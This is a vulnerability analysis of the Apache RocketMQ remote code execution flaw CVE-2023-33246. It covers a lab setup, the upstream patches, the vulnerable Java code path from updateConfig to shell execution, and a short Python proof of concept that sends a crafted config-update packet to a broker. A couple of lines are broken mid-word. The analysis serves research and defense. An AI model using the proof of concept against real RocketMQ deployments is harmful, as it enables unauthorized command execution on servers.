









# Apache RocketMQ RCE Vulnerability Analysis

## Vulnerability Description

- From the vulnerability description, we can see that there are two key points in the trigger point of this vulnerability.
  - `lack permission verification`
  - `using the update configuration function to execute commands as the system users`




## Vulnerability reappears

### Docker environment

- Pull the `docker` image

```shell
docker pull apache/rocketmq:5.1.0
docker pull apacherocketmq/rocketmq-console:2.0.0
```

- Start `broker`, `namesrv`, `console`

```shell
docker run -dit -p 9876:9876 -p 10909:10909 --name mqsrv -e "MAX_POSSIBLE_HEAP=100000000" apache/rocketmq:5.1.0 sh mqnamesrv /bin/bash
```

```shell
docker run -dit -p 10909:10909 -p 10911:10911 --name mqbroker --restart=always --link mqsrv:namesrv -e "NAMESRV_ADDR=namesrv:9876" -e "MAX_POSSIBLE_HEAP=200000000" apache/rocketmq:5.1.0 sh mqbroker -c /home/rocketmq/rocketmq-5.1.0/conf/broker.conf
```

```shell
docker run -dit --name mqconsole -p 8080:8080 -e "JAVA_OPTS=-Drocketmq.config.namesrvAddr=mqsrv:9876 -Drocketmq.config.isVIPChannel=false" apacherocketmq/rocketmq-console:2.0.0
```

### Bin environment

- Download the corresponding version of the binary package on the official website and run it directly

```bash
/bin/bash mqbroker -n 127.0.0.1:9876
/bin/bash mqnamesrv
```

### Attack

- Here we use the tool [CVE-2023-33246] (https://github.com/Le1a/CVE-2023-33246) to carry out the reproduction attack




## Vulnerability Analysis

- The first patch, [Make configPath unable to update at runtime](https://github.com/apache/rocketmq/pull/6733/files), this patch added a blacklist to three files to fix the vulnerabilities that existed when implementing the `updateConfig` function. The blacklist has
  - `brokerConfigPath`
  - `configStorePath`
  - `kvConfigPath`
  - `configStorePathName`







- The second patch, [Remove filter server module](https://github.com/apache/rocketmq/pull/6749/files), this patch directly removes the `filter server` module, and there is a core point triggered by this vulnerability in the deleted code.
- In the following code, the `FilterServerManager#buildStartCommand` function can construct a statement for command execution. Then, in the `FilterServerManager#createFilterServer` method, after the `more>0` condition is met, you can call `FilterServerUtil#callShell` to execute the command, resulting in a command execution vulnerability

```java
package org.apache.rocketmq.broker.filtersrv;

import...

public class FilterServerManager {

    ...
    public void createFilterServer() {
        int more =
            this.brokerController.getBrokerConfig().getFilterServerNums() - this.filterServerTable.size();
        String cmd = this.buildStartCommand();
        for (int i = 0; i < more; i++) {
            FilterServerUtil.callShell(cmd, log);
        }
    }

    private String buildStartCommand() {
        String config = "";
        if (BrokerStartup.CONFIG_FILE_HELPER.getFile() != null) {
            config = String.format("-c %s", BrokerStartup.CONFIG_FILE_HELPER.getFile());
        }

        if (this.brokerController.getBrokerConfig().getNamesrvAddr() != null) {
            config += String.format(" -n %s", this.brokerController.getBrokerConfig().getNamesrvAddr());
        }

        if (NetworkUtil.isWindowsPlatform()) {
            return String.format("start /b %s\\bin\\mqfiltersrv.exe %s",
                this.brokerController.getBrokerConfig().getRocketmqHome(),
                config);
        } else {
            return String.format("sh %s/bin/startfsrv.sh %s",
                this.brokerController.getBrokerConfig().getRocketmqHome(),
                config);
        }
    }
    ...
}

```

```java
package org.apache.rocketmq.broker.filtersrv;

import org.apache.rocketmq.logging.org.slf4j.Logger;

public class FilterServerUtil {
    public static void callShell(final String shellString, final Logger log) {
        Process process = null;
        try {
            String[] cmdArray = splitShellString(shellString);
            process = Runtime.getRuntime().exec(cmdArray);
            process.waitFor();
            log.info("CallShell: <{}> OK", shellString);
        } catch (Throwable e) {
            log.error("CallShell: readLine IOException, {}", shellString, e);
        } finally {
            if (null != process)
                process.destroy();
        }
    }

    private static String[] splitShellString(final String shellString) {
        return shellString.split(" ");
    }
}

```

- Based on the above analysis of the patch, let's take a look at a process of exploiting this vulnerability
- First in `org.apache.rocketmq.namesrv.processor.Defa
The `body` in the request package can be parsed in the ultRequestProcessor#updateConfig` method, and then the configuration will be updated. There is a file write vulnerability here.

```java
private RemotingCommand updateConfig(ChannelHandlerContext ctx, RemotingCommand request) {
    if (ctx != null) {
        log.info("updateConfig called by {}", RemotingHelper.parseChannelRemoteAddr(ctx.channel()));
    }

    final RemotingCommand response = RemotingCommand.createResponseCommand(null);

    byte[] body = request.getBody();
    if (body != null) {
        String bodyStr;
        try {
            bodyStr = new String(body, MixAll.DEFAULT_CHARSET);
        } catch (UnsupportedEncodingException e) {
            log.error("updateConfig byte array to string error: ", e);
            response.setCode(ResponseCode.SYSTEM_ERROR);
            response.setRemark("UnsupportedEncodingException " + e);
            return response;
        }

        Properties properties = MixAll.string2Properties(bodyStr);
        if (properties == null) {
            log.error("updateConfig MixAll.string2Properties error {}", bodyStr);
            response.setCode(ResponseCode.SYSTEM_ERROR);
            response.setRemark("string2Properties error");
            return response;
        }

        this.namesrvController.getConfiguration().update(properties);
    }

    response.setCode(ResponseCode.SUCCESS);
    response.setRemark(null);
    return response;
}
```

```java
public void update(Properties properties) {
    try {
        readWriteLock.writeLock().lockInterruptibly();

        try {
            // the property must be exist when update
            mergeIfExist(properties, this.allConfigs);

            for (Object configObject : configObjectList) {
                // not allConfigs to update...
                MixAll.properties2Object(properties, configObject);
            }

            this.dataVersion.nextVersion();

        } finally {
            readWriteLock.writeLock().unlock();
        }
    } catch (InterruptedException e) {
        log.error("update lock error, {}", properties);
        return;
    }

    persist();
}

public void persist() {
    try {
        readWriteLock.readLock().lockInterruptibly();

        try {
            String allConfigs = getAllConfigsInternal();

            MixAll.string2File(allConfigs, getStorePath());
        } catch (IOException e) {
            log.error("persist string2File error, ", e);
        } finally {
            readWriteLock.readLock().unlock();
        }
    } catch (InterruptedException e) {
        log.error("persist lock error");
    }
}
```

```java
public static synchronized void string2File(final String str, final String fileName) throws IOException {

    String bakFile = fileName + ".bak";
    String prevContent = file2String(fileName);
    if (prevContent != null) {
        string2FileNotSafe(prevContent, bakFile);
    }

    string2FileNotSafe(str, fileName);
}

public static void string2FileNotSafe(final String str, final String fileName) throws IOException {
    File file = new File(fileName);
    File fileParent = file.getParentFile();
    if (fileParent != null) {
        fileParent.mkdirs();
    }
    IOTinyUtils.writeStringToFile(file, str, "UTF-8");
}
```

- According to this idea, the parameters in command execution in patch 2 above can be controlled by updating the configuration, so as to achieve the purpose of command execution
- Track how the `FilterServerManager#createFilterServer` method is triggered, follow up on the `FilterServerManager#start` method first



- Follow up where the `FilterServerManager#start` method is called, follow up the `BrokerController#startBasicService` method, and then follow up the `BrokerController#start` method. At this point, a complete utilization chain is formed



- Grab the traffic packets during data interaction and analyze the traffic packets and find that in the process of `RocketMQ` protocol transmission, it mainly includes four parts: total protocol length, `JSON` data length, `JSON` data and `BODY` data



- where the value of the `code` field in the `JSON` data represents the different functions of the call, and the specific implementation is in the `org.apache.rocketmq.namesrv.processor.DefaultRequestProcessor` class

```java
switch (request.getCode()) {
    case RequestCode.PUT_KV_CONFIG:
        return this.putKVConfig(ctx, request);
    case RequestCode.GET_KV_CONFIG:
        return this.getKVConfig(ctx, request);
    case RequestCode.DELETE_KV_CONFIG:
        return this.deleteKVConfig(ctx, request);
    case RequestCode.QUE
RY_DATA_VERSION:
        return this.queryBrokerTopicConfig(ctx, request);
    case RequestCode.REGISTER_BROKER:
        return this.registerBroker(ctx, request);
    case RequestCode.UNREGISTER_BROKER:
        return this.unregisterBroker(ctx, request);
    case RequestCode.BROKER_HEARTBEAT:
        return this.brokerHeartbeat(ctx, request);
    case RequestCode.GET_BROKER_MEMBER_GROUP:
        return this.getBrokerMemberGroup(ctx, request);
    case RequestCode.GET_BROKER_CLUSTER_INFO:
        return this.getBrokerClusterInfo(ctx, request);
    case RequestCode.WIPE_WRITE_PERM_OF_BROKER:
        return this.wipeWritePermOfBroker(ctx, request);
    case RequestCode.ADD_WRITE_PERM_OF_BROKER:
        return this.addWritePermOfBroker(ctx, request);
    case RequestCode.GET_ALL_TOPIC_LIST_FROM_NAMESERVER:
        return this.getAllTopicListFromNameserver(ctx, request);
    case RequestCode.DELETE_TOPIC_IN_NAMESRV:
        return this.deleteTopicInNamesrv(ctx, request);
    case RequestCode.REGISTER_TOPIC_IN_NAMESRV:
        return this.registerTopicToNamesrv(ctx, request);
    case RequestCode.GET_KVLIST_BY_NAMESPACE:
        return this.getKVListByNamespace(ctx, request);
    case RequestCode.GET_TOPICS_BY_CLUSTER:
        return this.getTopicsByCluster(ctx, request);
    case RequestCode.GET_SYSTEM_TOPIC_LIST_FROM_NS:
        return this.getSystemTopicListFromNs(ctx, request);
    case RequestCode.GET_UNIT_TOPIC_LIST:
        return this.getUnitTopicList(ctx, request);
    case RequestCode.GET_HAS_UNIT_SUB_TOPIC_LIST:
        return this.getHasUnitSubTopicList(ctx, request);
    case RequestCode.GET_HAS_UNIT_SUB_UNUNIT_TOPIC_LIST:
        return this.getHasUnitSubUnUnitTopicList(ctx, request);
    case RequestCode.UPDATE_NAMESRV_CONFIG:
        return this.updateConfig(ctx, request);
    case RequestCode.GET_NAMESRV_CONFIG:
        return this.getConfig(ctx, request);
    case RequestCode.GET_CLIENT_CONFIG:
        return this.getClientConfigs(ctx, request);
    default:
        String error = " request type " + request.getCode() + " not supported";
        return RemotingCommand.createResponseCommand(RemotingSysResponseCode.REQUEST_CODE_NOT_SUPPORTED, error);
}
```

- The value corresponding to the field can be found in the `org.apache.rocketmq.remoting.protocol.RequestCode` class. You can see that the value of the `code` field of `UPDATE_BROKER_CONFIG` is `25`



- Therefore, different functions can be called by adjusting the value of the `code` field, and the purpose of command execution can be achieved by sending set data packets.

```python
import socket, binascii

client = socket.socket()
client.connect(('127.0.0.1', 10911))

json = '{"code":25,"extFields":{"test":"RockedtMQ"},"flag":0,"language":"JAVA","opaque":266,"serializeTypeCurrentRPC":"JSON","version":433}'.encode('utf-8')
body='filterServerNums=1\nnamesrvAddr=127.0.0.1:9876\nrocketmqHome=1'.encode('utf-8')

json_lens = int(len(binascii.hexlify(json).decode('utf-8')) / 2)
part1 = '0000000' + str(hex(json_lens))[2:]
all_lens = int(4 + len(binascii.hexlify(body).decode('utf-8')) / 2 + json_lens)
part2 = '0000000' + str(hex(all_lens))[2:]
data = part2[-8:] + part1[-8:] + binascii.hexlify(json).decode('utf-8') + binascii.hexlify(body).decode('utf-8')

client.send(bytes.fromhex(data))
data_recv = client.recv(1024)
print(data_recv)
```